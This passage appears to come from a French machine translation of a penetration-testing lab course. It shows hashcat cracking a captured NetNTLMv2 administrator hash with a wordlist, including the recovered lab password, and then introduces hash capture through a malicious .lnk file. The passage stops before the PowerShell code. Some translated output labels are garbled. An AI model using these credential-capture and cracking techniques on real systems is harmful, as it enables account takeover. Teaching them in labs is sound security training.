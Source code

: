 #### Craquage du hachage NTLMv2 avec Hashcat

Nous pourrions alors tenter de déchiffrer ce hachage de mot de passe hors ligne à l'aide de `Hashcat` pour récupérer le texte en clair.

Craquage du hachage NTLMv2 avec Hashcat

```
dsgsec@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) démarrage...

<SNIP>

Accès au cache du dictionnaire :
* Nom de fichier.. : /usr/share/wordlists/rockyou.txt
* Mots de passe. : 14344385
* Octets......: 139921507
* Espace clé.. : 14344385

ADMINISTRATEUR ::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Bienvenue1

Séance..........: hashcat
Statut........... : fissuré
Hash.Name........ : NetNTLMv2
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Heure.Débutéd......: jeu 27 mai 19:16:18 2021 (1 sec)
Heure.Estimée... : jeu 27 mai 19:16:19 2021 (0 secs)
Guess.Base....... : Fichier (/usr/share/wordlists/rockyou.txt)
Devine.Queue...... : 1/1 (100,00 %)
Vitesse.#1......... : 1 233,7 kH/s (2,74 ms) @ Accel : 1 024 Boucles : 1 Thr : 1 Vec : 8
Récupéré........ : 1/1 (100,00 %) Résumés
Progression.........: 43008/14344385 (0.30%)
Rejeté......... : 0/43008 (0,00 %)
Point.de.restauration.... : 36864/14344385 (0,26 %)
Restore.Sub.#1... : Salt : 0 Amplificateur : 0-1 Itération : 0-1
Candidats.#1....: holabebe -> plus difficile

Début : jeu. 27 mai 19:16:16 2021
Arrêté : jeu 27 mai 19:16:20 2021

```

Remarque : dans notre exemple, attendez 2 à 5 minutes que « l'utilisateur » parcoure le partage après avoir démarré Responder.

* * * * *

Capturer des hachages avec un fichier .lnk malveillant
------------------------------------------------

Cette attaque ne fonctionne plus sur les hôtes Server 2019, mais nous pouvons obtenir le même effet en utilisant un [.lnk] malveillant (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339 -4d0c-a68d-bf1d6cc0f943). Nous pouvons utiliser divers outils pour générer un fichier .lnk malveillant, comme [Lnkbomb](https://github.com/dievus/lnkbomb), car ce n'est pas aussi simple que de créer un fichier .scf malveillant. On peut aussi en fabriquer un en utilisant quelques lignes de PowerShell :
